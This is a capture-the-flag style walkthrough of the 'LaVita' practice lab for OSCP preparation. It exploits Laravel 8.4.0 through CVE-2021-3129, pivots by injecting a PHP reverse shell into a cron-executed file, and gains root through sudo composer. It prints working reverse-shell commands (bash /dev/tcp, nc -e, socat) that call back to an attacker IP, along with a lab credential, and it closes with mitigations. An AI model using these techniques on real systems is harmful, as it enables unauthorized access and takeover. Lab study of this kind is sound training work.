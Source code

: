 ```yaml
---
title: LaVita
date: 2025-05-09
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2021-3129, pspy, sudo-composer-privesc ] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-05-09-lavita/
---
```


## Introduction

In this walkthrough, I started by scanning the target and found that **ports 22 and 80** were open. Navigating to **port 80**, I discovered the application was running **Laravel version 8.4.0**. I searched for known vulnerabilities and found a **public exploit** for that version, which I used to gain **initial access**.

During enumeration, I found a **cron job** being executed by a different **low-privileged user**. I injected a **reverse shell** into the cron job and gained access as that user. Further enumeration revealed that this user had **sudo privileges to run the `composer` binary**. I took advantage of this misconfiguration and escalated privileges to gain **root access**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

We usually skip SSH.

## Web

### Port 80

- Version - Apache httpd 2.4.56 ((Debian))

```powershell
searchsploit apache 2.4
```

**No result.**

- Laravel 8.4.0

![image.png](image%203.png)

## Exploitation

[https://github.com/nth347/CVE-2021-3129_exploit](https://github.com/nth347/CVE-2021-3129_exploit)

Trying to get reverse shell:

```bash
 bash -i >& /dev/tcp/192.168.45.155/80 0>&1
```

`/var/www/html/lavita/storage/logs/laravel.log`

I tried nearly all bash reverse shell scripts I even transferred `.sh`  and `.elf` scripts to the target and executed but they didn’t work, maybe there is some type of protection.

```powershell
./exploit.py http://192.168.240.38 Monolog/RCE1 'which nc'
```

```powershell
./exploit.py http://192.168.240.38 Monolog/RCE1 '/usr/bin/nc -e /bin/sh 192.168.45.155 4444'
```

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 #- on Kali

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.155:4444 #- on victim machine
```

I used socat and get a fully interactive shell.

![image.png](image%204.png)

that is my user’s password nevertheless I checked it against skunk and root too.

![image.png](image%205.png)

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

```bash
cat /var/www/html/lavita/.env
```

![image.png](image%206.png)

- **MySQL**

I couldn’t find any other interesting user in users table of lavita database:

```bash
mysql -u lavita -p
```

```sql
show databases;
show tables;
select * from users;
```

![image.png](image%207.png)

## Credentials

```bash
lavita : sdfquelw0kly9jgbx92
```

I run linpeas

1. `/var/www/html/lavita/rev.sh` - checked
2. `/usr/bin/write.ul` (Unknown SGID binary) 

![image.png](image%208.png)

![image.png](image%209.png)

## Lateral Movement

I checked if `rev.sh` is executed either by skunk or root user but it is not, but I found another file which is executed by skunk user and we have write access to it.  Run pspy to see if that file is executed on the machine:

```bash
./pspy64
```

![image.png](image%2010.png)

![image.png](image%2011.png)

This file by itself is PHP file so I am gonna delete all file content and add there Ivan Sincek PHP reverse shell from the following website:

[Reverse Shell Generator](https://www.revshells.com/)

![image.png](image%2012.png)

As soon as the file gets executed we receive a reverse shell.

![image.png](image%2013.png)

## Privilege Escalation

We are in sudo group. That means we can run any command with `sudo` and root password.

![image.png](image%2014.png)

We can run composer without root password.

According to GTFOBins:

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

it created a temporary folder (`$TF`)stores there composer.json and run script where working folder is `$TF`. We should execute the command exactly as it is mentioned in sudo file. Therefore, let’s create/modify composer.json under `/var/www/html/lavita` . `*` at the end means sudo file does not care about that part there can be anything.

As `skunk` user does not have write privileges on `/var/www/html/lavita` folder we shift to www-data again.

```sql
echo '{"scripts":{"x":"/usr/bin/bash -i 0<&3 1>&3 2>&3"}}' > composer.json
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

It returned some weird errors with `sh` so I changed to netcat reverse shell.

```sql
echo '{"scripts":{"x":"/usr/bin/nc -e /bin/sh 192.168.45.155 4445"}}' > composer.json
```

![image.png](image%2015.png)

Now we are root!

## Mitigation

- **Keep Laravel and all dependencies updated** to patch known vulnerabilities like those in version 8.4.0.
- **Secure cron jobs**: Avoid having writable or user-editable cron jobs without proper access controls.
- **Restrict sudo access** to only necessary binaries, and avoid allowing execution of interpreters or package managers like `composer` via sudo.
- Apply the **principle of least privilege** to both users and services.
- Monitor cron jobs and system logs for **unauthorized modifications or execution patterns**.
